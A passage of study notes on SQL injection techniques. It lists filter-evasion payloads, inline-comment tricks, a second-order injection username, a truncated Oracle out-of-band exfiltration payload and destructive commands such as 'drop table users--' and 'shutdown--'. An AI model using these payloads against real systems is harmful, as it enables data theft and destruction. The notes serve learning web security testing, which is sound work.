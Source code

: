 - if comment symbol is blocked, instead of comment try to balance the Query by adding quate
	- instead of using  `'  or 1=1 -- `
	- use this one `' or 'a'='a`
	
## Circumventing Simple Validation
- some input validation blacklisted or block or remove any supplied data that appears on the list.
- eg. if SELECT key word is blocked or removed then try this
	- SeLeCt
	- %00SELECT
	- SELSELECTECT
	- %53%45%4c%45%43%54
	- %2553%2545%254c%2545%2543%2554
## Using SQL Comments
- we use SQL inline Comments as we use in C/c++
	- SELECT/\*foo\*/username,password/\*foo\*/FROM/\*foo\*/users
	- In My SQL Comments can even be inserted within Keyword themselves 
		- SEL/\*foo\*/ECT username,passwd FROM users

# Second-Order SQLI
- Many application handle data safely when it is first inserted into DB, once data is stored in DB, it may be processed in UNSafe Way later, either by application or by other back-end process
- eg. application handles username in safe way by adding additional `''` but when user try to change the password, it fetch the user name and the validation is not implemented at that stage, this will cause the error for the DB, 
- attacker simply craft a username like `admin') -- ` this doesn't harm at time of registration, but when the password change is happen it execute out malicious query .
# Blind SQLI Via OAST data exfil
```bash
UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a`
```

# Advanced Exploitation
- some time application have some defense mechanism that attacker can not steal sensitive data, and also our injected query will not return any where
**NOTE**: Application owner should be aware that not every attacker is interested in stealing Sensitive Data, some may be more Destructive for eg
- 'shutdown-- ' `MSSQL` used to shutdown database with this command
- attacker also drop or delete tables or columns
    eg . 'drop table users-- '
        ' drop table accounts-- '
		'drop table customers-- '
		
## Retrieving Data As Numbers
 it is fairly common to find that no string field within an application are  vulnerable to SQL injection, input with `'` are handled properly, however vulnerability may exist within numeric data fields, where user input is not encapsulated within single quote
 - in this situation, to retrieve data via neumeric response have 2 possibility 
	 - ASCII, which returns ASCII code for the input 
	 - SUBSTRING(or SUBSTR in `ORACLE`) which returns a substring of its input
 - eg. SUBSTEING('Admin',1,1) returns A
 -     ASCII('A') returns 65
 -  therefore ASCII(SUBSTR('Admin',1,1)) returns 65